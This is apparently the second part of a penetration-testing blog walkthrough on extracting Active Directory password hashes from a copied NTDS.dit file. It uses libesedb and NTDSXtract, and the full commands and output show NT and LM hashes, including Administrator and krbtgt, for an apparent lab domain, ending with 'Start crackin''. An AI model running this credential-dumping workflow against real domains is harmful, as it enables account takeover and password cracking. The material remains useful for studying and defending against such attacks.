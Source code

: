 = Volume Shadow Copy NTDS.DIT Domain Hashes Remotely - Part 2
:hp-tags: shadowcopy, cracking

Part 2, we have the NTDS.dit file and the SYSTEM.hive file. First we need a few tools:

From: [http://www.ntdsxtract.com/](http://www.ntdsxtract.com/)

Download: [http://www.ntdsxtract.com/downloads/ntdsxtract/ntdsxtract_v1_0.zip](http://www.ntdsxtract.com/downloads/ntdsxtract/ntdsxtract_v1_0.zip)

```bash
wget http://www.ntdsxtract.com/downloads/ntdsxtract/ntdsxtract_v1_0.zip
```

From: [http://code.google.com/p/libesedb/](http://code.google.com/p/libesedb/)

Download: [https://googledrive.com/host/0B3fBvzttpiiSN082cmxsbHB0anc/libesedb-alpha-20120102.tar.gz](https://googledrive.com/host/0B3fBvzttpiiSN082cmxsbHB0anc/libesedb-alpha-20120102.tar.gz)

```bash
wget https://googledrive.com/host/0B3fBvzttpiiSN082cmxsbHB0anc/libesedb-alpha-20120102.tar.gz
```

Extract the tools:

```bash
tar zxvf libesedb-alpha-20120102.tar.gz
unzip ntdsxtract_v1_0.zip
```

Compile/make libesedb:

```bash 
root@wpad:~/blog/# cd libesedb-20120102
root@wpad:~/blog/libesedb-20120102# ./configure 
root@wpad:~/blog/libesedb-20120102# make
``` 

Export the tables from NTDS.dit:

```bash
root@wpad:~/blog/libesedb-20120102# cd esedbtools/
root@wpad:~/blog/libesedb-20120102/esedbtools# ./esedbexport 
esedbexport 20120102
    
Missing source file.
Use esedbexport to export items stored in an Extensible Storage Engine (ESE)
Database (EDB) file

Usage: esedbexport [ -c codepage ] [ -l logfile ] [ -m mode ] [ -t target ]
                   [ -T table_name ] [ -hvV ] source

	source: the source file

	-c:     codepage of ASCII strings, options: ascii, windows-874,
	        windows-932, windows-936, windows-1250, windows-1251,
	        windows-1252 (default), windows-1253, windows-1254
	        windows-1255, windows-1256, windows-1257 or windows-1258
	-h:     shows this help
	-l:     logs information about the exported items
	-m:     export mode, option: all, tables (default)
	        'all' exports all the tables or a single specified table with indexes,
	        'tables' exports all the tables or a single specified table
	-t:     specify the basename of the target directory to export to
	        (default is the source filename) esedbexport will add the suffix
	        .export to the basename
	-T:     exports only a specific table
	-v:     verbose output to stderr
	-V:     print version
root@wpad:~/blog/libesedb-20120102/esedbtools# 


root@wpad:~/blog/libesedb-20120102/esedbtools# ./esedbexport ../../ntds.dit 
esedbexport 20120102

Opening file.
Exporting table 1 (MSysObjects) out of 12.
Exporting table 2 (MSysObjectsShadow) out of 12.
Exporting table 3 (MSysUnicodeFixupVer2) out of 12.
Exporting table 4 (datatable) out of 12.
Exporting table 5 (hiddentable) out of 12.
Exporting table 6 (link_table) out of 12.
Exporting table 7 (sdpropcounttable) out of 12.
Exporting table 8 (sdproptable) out of 12.
Exporting table 9 (sd_table) out of 12.
Exporting table 10 (MSysDefrag2) out of 12.
Exporting table 11 (quota_table) out of 12.
Exporting table 12 (quota_rebuild_progress_table) out of 12.
Export completed.
```    
  
Move the exported tables to somewhere a bit easier:

```bash
root@wpad:~/blog/libesedb-20120102/esedbtools# 
root@wpad:~/blog/libesedb-20120102/esedbtools# mv ntds.dit.export/ ../../
```

NTDS extract can do a lot more than just hashes:

```bash
root@wpad:~/blog# cd NTDSXtract 1.0/
root@wpad:~/blog/NTDSXtract 1.0# ls
dscomputers.py  dsdeletedobjects.py  dsfileinformation.py  dsgroups.py  dstimeline.py  dsusers.py  framework  ntds
root@wpad:~/blog/NTDSXtract 1.0# python dsusers.py 
DSUsers
Extracts information related to user objects

usage: dsusers.py   [option]
  options:
    --rid 
          List user identified by RID
    --name 
          List user identified by Name
    --passwordhashes 
          Extract password hashes
    --passwordhistory 
          Extract password history
    --certificates
          Extract certificates
    --supplcreds 
          Extract kerberos keys
    --membership
          List groups of which the user is a member
root@wpad:~/blog/NTDSXtract 1.0# 
```    

But we like hashes:
    
```bash
root@wpad:~/blog/NTDSXtract 1.0# python dsusers.py ../ntds.dit.export/datatable.3 ../ntds.dit.export/link_table.5 --passwordhashes ../SYSTEM.hive --passwordhistory ../SYSTEM.hive 
Running with options:
	Extracting password hashes
	Extracting password history
Initialising engine...
Scanning database - 100% -> 3475 records processed
Extracting schema information - 100% -> 1549 records processed
Extracting object links...

List of users:
==============

Record ID:           3562
User name:           Administrator
User principal name: 
SAM Account name:    Administrator
SAM Account type:    SAM_NORMAL_USER_ACCOUNT
GUID: 7ceee337-fa58-4ca0-9643-540a40161020
SID:  S-1-5-21-3825330677-773554443-1603823854-500
When created:         2012-08-22 03:12:59
When changed:         2013-05-15 04:06:55
Account expires:      Never
Password last set:    2012-08-22 02:49:42.899576
Last logon:           2013-05-15 04:08:04.547236
Last logon timestamp: 2013-05-15 04:06:55.577353
Bad password time     2013-06-07 02:34:34.560516
Logon count:          9
Bad password count:   1
User Account Control:
	NORMAL_ACCOUNT
Ancestors:
	$ROOT_OBJECT$ net projectmentor Users Administrator 
Password hashes:
	Administrator:$NT$88e4d9fabaecf3ded18dd80905521b29:::
Password history:

Record ID:           3563
User name:           Guest
User principal name: 
SAM Account name:    Guest
SAM Account type:    SAM_NORMAL_USER_ACCOUNT
GUID: 659723d7-1246-4959-b0fc-af80ea5e3816
SID:  S-1-5-21-3825330677-773554443-1603823854-501
When created:         2012-08-22 03:12:59
When changed:         2013-03-14 06:54:22
Account expires:      Never
Password last set:    2013-03-14 06:54:22.029303
Last logon:           2013-03-14 06:54:27.012817
Last logon timestamp: 2013-03-14 06:32:41.834022
Bad password time     2013-06-07 03:07:46.499917
Logon count:          0
Bad password count:   10
User Account Control:
	PWD Not Required
	NORMAL_ACCOUNT
	PWD Never Expires
Ancestors:
	$ROOT_OBJECT$ net projectmentor Users Guest 
Password hashes:
	Guest:$NT$823893adfad2ada6e1a414f3ebdf58f7:::
Password history:

Record ID:           3564
User name:           user
User principal name: 
SAM Account name:    user
SAM Account type:    SAM_NORMAL_USER_ACCOUNT
GUID: c5a5c87a-93b4-4d80-97a1-1c605b9b0c03
SID:  S-1-5-21-3825330677-773554443-1603823854-1000
When created:         2012-08-22 03:12:59
When changed:         2013-06-07 02:51:54
Account expires:      Never
Password last set:    2013-03-14 03:25:11.793912
Last logon:           2013-06-07 02:51:54.152191
Last logon timestamp: 2013-06-07 02:51:54.152191
Bad password time     2013-04-19 05:25:40.412670
Logon count:          67
Bad password count:   0
User Account Control:
	NORMAL_ACCOUNT
	PWD Never Expires
Ancestors:
	$ROOT_OBJECT$ net projectmentor Users user 
Password hashes:
	user:$NT$88e4d9fabaecf3dec18dd80905521b29:::
Password history:
	user_nthistory0:$NT$88e4d9fabafcf3dec18dd80905521b29:::
	user_nthistory1:$NT$0c61031f010b2fbb88fe449fbf262477:::
	user_nthistory2:$NT$88e4dffabaecf3dec18dd80905521b29:::
	user_lmhistory0:c869027e01c3c4fe7626a90c87cc7fed:::
	user_lmhistory1:8be023cd858da1edd21b94907afe182c:::

Record ID:           3610
User name:           krbtgt
User principal name: 
SAM Account name:    krbtgt
SAM Account type:    SAM_NORMAL_USER_ACCOUNT
GUID: 74e6bd0b-e4d5-42df-98d5-24f9060061c9
SID:  S-1-5-21-3825330677-773554443-1603823854-502
When created:         2012-08-22 03:16:03
When changed:         2012-08-22 03:31:13
Account expires:      Never
Password last set:    2012-08-22 03:16:03.166457
Last logon:           Never
Last logon timestamp: Never
Bad password time     Never
Logon count:          0
Bad password count:   0
User Account Control:
	Disabled
	NORMAL_ACCOUNT
Ancestors:
	$ROOT_OBJECT$ net projectmentor Users krbtgt 
Password hashes:
	krbtgt:$NT$7253e8647254716b507a2dcb149ff2da:::
Password history:
	krbtgt_nthistory0:$NT$7253e86a7254716a507a2dcb149ff2da:::
	krbtgt_lmhistory0:113926e06a31d182623633041b632929:::

Record ID:           3762
User name:           John Doe
User principal name: jdoe@projectmentor.net
SAM Account name:    jdoe
SAM Account type:    SAM_NORMAL_USER_ACCOUNT
GUID: bbf24c63-39a9-4cc4-8aa8-933f9ddee940
SID:  S-1-5-21-3825330677-773554443-1603823854-1104
When created:         2012-08-22 04:10:52
When changed:         2013-06-05 13:04:11
Account expires:      Never
Password last set:    2013-04-19 07:11:49.849592
Last logon:           2013-06-07 02:56:25.677855
Last logon timestamp: 2013-06-05 13:04:11.674344
Bad password time     2013-05-02 03:01:12.536251
Logon count:          242
Bad password count:   0
User Account Control:
	NORMAL_ACCOUNT
	PWD Never Expires
Ancestors:
	$ROOT_OBJECT$ net projectmentor Users John Doe 
Password hashes:
	John Doe:$NT$88e4d9fabaecf3ded18dd80905511b29:::
Password history:

Record ID:           3797
User name:           Random User
User principal name: randy@projectmentor.net
SAM Account name:    randy
SAM Account type:    SAM_NORMAL_USER_ACCOUNT
GUID: 2701eb29-628a-4568-a093-d33a7db10d04
SID:  S-1-5-21-3825330677-773554443-1603823854-1108
When created:         2013-04-08 02:34:04
When changed:         2013-05-27 16:06:07
Account expires:      Never
Password last set:    2013-04-19 06:59:25.423280
Last logon:           2013-04-08 02:34:10.482690
Last logon timestamp: 2013-04-08 02:34:10.482690
Bad password time     Never
Logon count:          1
Bad password count:   0
User Account Control:
	NORMAL_ACCOUNT
	PWD Never Expires
Ancestors:
	$ROOT_OBJECT$ net projectmentor Users Random User 
Password hashes:
	Random User:$NT$88ead9fa5aecf3dec18dd80905521b29:::
Password history:
root@wpad:~/blog/NTDSXtract 1.0# 

```

All done. Start crackin'
